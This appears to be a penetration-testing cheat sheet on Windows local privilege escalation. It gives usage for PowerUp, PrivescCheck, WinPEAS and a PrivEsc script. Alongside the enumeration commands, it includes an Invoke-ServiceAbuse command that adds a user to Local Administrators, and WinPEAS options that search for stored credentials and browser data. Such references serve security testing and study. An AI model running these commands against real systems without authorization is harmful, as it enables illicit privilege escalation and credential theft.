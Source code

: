 ## Local PrivEsc

- [PowerUP](#powerup)
  * [Find Vulnerable Services](#find-vulnerable-services)
  * [Abuse Found Vulnerable Services](#abuse-found-vulnerable-services)
- [PrivEsc](#privesc)
  * [Find Vulnerable Services](#find-vulnerable-services-1)
- [PrivescCheck](#privesccheck)
- [WinPEAS](#winpeas)

<small><i><a href='http://ecotrust-canada.github.io/markdown-toc/'>Table of contents generated with markdown-toc</a></i></small>


### PowerUP
---
```powershell
C:> . .\PowerUp.ps1
```
#### Find Vulnerable Services

- Run All Checks
```powershell
C:> Invoke-AllChecks
```
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
#### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
# Make <user> member of the Admins group. Just need to relog session and that's it.
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<user>'
```

### PrivEsc
---
```powershell
C:> Invoke-PrivEsc
```
- Groups   : Groups of our interest when checking ACLs.
- Mode     : Mode to use - full or lhf (default).
- Extended : Switch enables lookups that may last for several minutes.

#### Find Vulnerable Services
- Run All Checks
```powershell
C:> Invoke-PrivEsc
```
- Full Check for Groups
```powershell
C:> Invoke-Privesc -Groups 'Users,Everyone,"Authenticated Users"' -Mode full -Extended
```
### PrivescCheck
---
Syntax:
```powerview
Invoke-PrivescCheck [[-Report] <string>] [[-Format] {TXT | HTML | CSV | XML}] [-Extended] [-Experimental] [-Force] [-Audit] [-Silent]  [<CommonParameters>]
```
Usage:
```powershell
C:> . PrivescCheck.ps1
C:> Invoke-PrivescCheck
```
  
### WinPEAS
---
WinPEAS is a binary to enumerate possible paths to escalate privileges locally
```powershell
        quiet                Do not print banner
        notcolor             Don't use ansi colors (all white)
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information`
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search files that can contains credentials
        eventsinfo           Display interesting events information
        wait                 Wait for user input between checks
        debug                Display debugging information - memory usage, method execution time
        log[=logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

        Additional checks (slower):
        -lolbas              Run additional LOLBAS check
        -linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
```

